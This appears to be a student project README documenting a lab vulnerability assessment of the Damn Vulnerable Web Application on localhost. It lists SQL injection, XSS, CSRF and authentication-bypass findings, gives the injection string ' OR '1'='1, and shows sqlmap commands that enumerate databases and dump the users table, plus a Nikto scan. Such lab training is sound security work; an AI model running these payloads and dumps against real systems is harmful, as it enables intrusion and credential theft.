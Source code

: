 # Web Application Security Testing (DVWA)

This project documents a hands-on vulnerability assessment of the **Damn Vulnerable Web Application (DVWA)** using industry-standard tools and manual testing methods.

---

## 📌 Project Overview
- **Project**: Vulnerability Assessment on DVWA  
- **Tools Used**: SQLMap, Nikto, Manual (Browser) Testing  
- **Environment**: Kali Linux 2025  
- **Prepared by**: AHMIN SAVAGE  
- **Date**: August 2025  
- **Task**: FutureInterns – Task 1  

---

## 🧪 Vulnerabilities Identified
1. **SQL Injection** (manual + automated with SQLMap)
2. **Cross-Site Scripting (XSS)** – Reflected XSS + Cookie Disclosure
3. **Cross-Site Request Forgery (CSRF)** – Manual .html form
4. **Authentication Bypass** – `' OR '1'='1`
5. **Directory Listing & Server Misconfigurations** (Nikto)
6. **Apache Server Info Disclosure & PHP Shells** – via Nikto

---

## 🧰 Tools & Commands

### 🔸 SQLMap Automation
```bash
sqlmap -u "http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" \
--cookie="security=low; PHPSESSID=62872aa381f5f24da77630834bef64d1" --batch --dbs

sqlmap -u "http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" \
--cookie="security=low; PHPSESSID=62872aa381f5f24da77630834bef64d1" -D dvwa --tables

sqlmap -u "http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" \
--cookie="security=low; PHPSESSID=62872aa381f5f24da77630834bef64d1" -D dvwa -T users --dump

🔸 Nikto Scan
nikto -h http://127.0.0.1 -o dvwa-nikto-report.html -Format html



